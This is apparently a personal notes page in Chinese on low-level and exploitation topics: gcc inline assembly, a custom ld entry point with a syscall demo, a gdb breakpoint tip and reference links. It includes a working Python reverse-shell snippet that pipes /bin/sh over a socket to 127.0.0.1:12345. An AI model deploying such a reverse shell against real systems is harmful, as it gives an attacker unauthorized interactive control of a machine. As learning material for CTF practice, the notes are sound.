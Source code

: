 ## gcc 内嵌汇编规则

`https://akaedu.github.io/book/ch19s05.html`

## ld:自定义入口 arch

`ld -m elf_i386 -static -e n132 -o nier tiny.o`
one demo
```c
char str[5]="nier\n";
void say()
{
    asm("movl %%eax,%%ecx\n\t"
        "movl $4,%%eax \n\t"
        "movl $1,%%ebx \n\t"
        "movl $5,%%edx \n\t"
        "int $0x80 \n\t"
        ::"r"(str):"ebx","ecx","edx"
        );
}
void exit()
{
    asm(
        "movl $1,%eax\n\t"
        "int $0x80\n\t"
        );
}
int n132()
{
    say();
    exit();
    return 0;
}
```
## python socket+dup弹shell

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",12345))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh",'-i'])
```
做kidding的时候看到的...原来还可以复制stdXXX到socket

## gdb b 

关于gdb的断点今天被上了一课...
x64断点最好不要断在某些奇怪的gadget上(被截断产生的gadget)
rsp_r13_r14_r15=		0x00000000004005bd
rbx_rbp_r12_r13_r14_r15_ret=	0x0000000004005BA
这样就导致程序运行出现问题


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/
